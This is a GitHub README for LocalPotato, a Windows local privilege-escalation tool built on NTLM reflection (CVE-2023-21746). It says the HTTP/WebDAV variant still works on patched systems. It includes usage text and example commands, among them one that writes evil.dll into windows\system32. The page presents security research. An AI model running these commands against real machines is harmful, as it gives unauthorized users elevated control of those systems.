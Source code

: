 # LocalPotato
Another Local Windows privilege escalation using a new potato technique ;)

The LocalPotato attack is a type of NTLM reflection attack that targets local authentication. This attack allows for arbitrary file read/write and elevation of privilege. 

**NOTE: The SMB scenario has been fixed by Microsoft in the January 2023 Patch Tuesday with the [CVE-2023-21746](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2023-21746). If you run this exploit against a patched machine it won't work.** 

More technical details at --> https://www.localpotato.com/localpotato_html/LocalPotato.html

**NOTE2: The HTTP/WebDAV scenario is currently unpatched (Microsoft decision, we reported it) and works on updated systems.** 

More technical details at --> https://decoder.cloud/2023/11/03/localpotato-http-edition/



## Usage

```

         LocalPotato (aka CVE-2023-21746 & HTTP/WebDAV)
         by splinter_code & decoder_it


Mandatory Args:
SMB:
        -i Source file to copy for SMB
        -o Output file for SMB - do not specify the drive letter
HTTP:
        -r host/ip for HTTP
        -u target URL for HTTP

Optional Args:
-c CLSID (Default {854A20FB-2D44-457D-992F-EF13785D2B51})
-p COM server port (Default 10271)

Examples:
- SMB:
         LocalPotato.exe -i c:\hacker\evil.dll -o windows\system32\evil.dll
- HTTP/WebDAV:
         LocalPotato.exe -r 127.0.0.1 -u /webdavshare/potato.local
```

## Demo

- SMB:
![image](https://user-images.githubusercontent.com/19797064/218135881-af046286-c299-4f08-856b-2265adc46e64.png)

- HTTP/WebDAV
![image](https://github.com/decoder-it/LocalPotato/assets/19797064/100db270-e1e2-44db-ae54-91c3a7cb9b15)


## Authors: 
- [@decoder_it](https://twitter.com/decoder_it)
- [@splinter_code](https://twitter.com/splinter_code)
